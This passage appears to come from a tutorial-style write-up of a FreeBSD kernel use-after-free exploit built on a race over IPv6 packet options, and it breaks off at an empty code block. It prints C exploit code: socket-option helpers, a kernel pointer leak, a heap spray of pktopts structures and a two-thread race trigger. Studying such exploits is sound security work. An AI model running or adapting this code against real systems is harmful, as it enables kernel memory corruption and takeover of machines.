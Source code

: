```c
  socklen_t len = sizeof(struct in6_pktinfo);
  return getsockopt(s, IPPROTO_IPV6, IPV6_PKTINFO, buf, &len);
}
static int set_pktinfo(int s, char *buf) {
  return setsockopt(s, IPPROTO_IPV6, IPV6_PKTINFO, buf, sizeof(struct in6_pktinfo));
}
static int set_pktopts(int s, char *buf, socklen_t len) {
  return setsockopt(s, IPPROTO_IPV6, IPV6_2292PKTOPTIONS, buf, len);
}
static int free_pktopts(int s) {
  return set_pktopts(s, NULL, 0);
}
```

Next, it writes a helper function to 'leak' (here the leak is not actually a leak as it is just a simple read of the value returned from `getsockopt()` (i.e. so far it is "legal").
```c
static uint64_t leak_rthdr_ptr(int s) {
  char buf[0x100];
  get_rthdr(s, buf, sizeof(buf));
  return *(uint64_t *)(buf + PKTOPTS_RTHDR_OFFSET);
}
```
### Exploit strategy 
First, the exploit "sprays" the heap with a lot of `struct pktopts`'s so that in thread2 we can free and reallocate many of these structs at once: why must we do this? 
Usually the chance of a race working is very small. Thus if we fill let's say a GB of space with our structs and try to free them all, it is likely that one might end up triggering the race condition. This is much faster than trying with once single `struct pktopt`.
```c
static int spray_pktopts(void) {
  for (int i = 0; i < NUM_SPRAY_RACE; i++)
    set_tclass(spray_sock[i], TCLASS_SPRAY);
  if (get_tclass(master_sock) == TCLASS_SPRAY)
    return 1;	
    // Our race worked! The master (victim) has this class
    // meaning the two point to the same object.
  for (int i = 0; i < NUM_SPRAY_RACE; i++)
    free_pktopts(spray_sock[i]);
  return 0;
}
```
The above function is called by a wrapper function called `trigger_uaf()`:
```c
static int trigger_uaf(void) {
  pthread_t th[2];
  pthread_create(&th[0], NULL, use_thread, NULL);
  pthread_create(&th[1], NULL, free_thread, NULL);
  while (1) {
    if (spray_pktopts())
      break;
#ifndef FBSD12
    usleep(100);
#endif
  }
  triggered = 1;
  pthread_join(th[0], NULL);
  pthread_join(th[1], NULL);
  return find_overlap_sock();
}
```
`find_overlap_sock()` just modifies the victim and checks which of the sprayed sock's have been modified:
```c
```